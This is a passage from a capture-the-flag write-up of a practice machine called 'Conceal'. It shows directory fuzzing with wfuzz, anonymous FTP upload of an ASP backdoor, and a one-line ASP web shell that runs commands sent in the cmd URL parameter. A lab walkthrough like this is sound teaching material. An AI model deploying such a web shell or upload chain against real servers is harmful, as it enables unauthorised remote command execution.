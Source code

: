 The next thing I do is a web file and directory discovery with `wfuzz`, which gives me a result of a folder with a very suggestive name. Now that I have a bit of certainty as to where the uploaded files might be hosting from, I'm going to try to upload a malicious **ASP** file that will allow me to execute remotely. I can already access the file from the browser but it won't allow me to execute commands at the moment.

```bash
wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.116/FUZZ
# upload

locate cmd.asp
cp /usr/share/davtest/backdoors/asp_cmd.asp .
ftp 10.10.10.116 21
  anonymous
  put asp_cmd.asp
  dir
  exit

# http://10.10.10.116/upload/asp_cmd.asp
# whoami        :(
```

<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Perhaps the problem with the script is the size or the code itself, so I'm going to resort to a script very reduced in its code and its size, available on the **[Hacking Dream](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html){:target="_blank"}** website. Once I create the malicious file with the custom code, I upload it again with `ftp`. This time I can execute command through the **URL** using the **GET** method and using the **cmd** parameter, the first thing I investigate is the account with which I could access the system.

```bash
nvim oldboy_shell.asp
cat !$
```

> **oldboy_shell.asp**:

```asp
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

```bash
ftp 10.10.10.116 21
  anonymous
  put oldboy_shell.asp

# http://10.10.10.116/upload/oldboy_shell.asp?cmd=whoami
# conceal\destitute
```
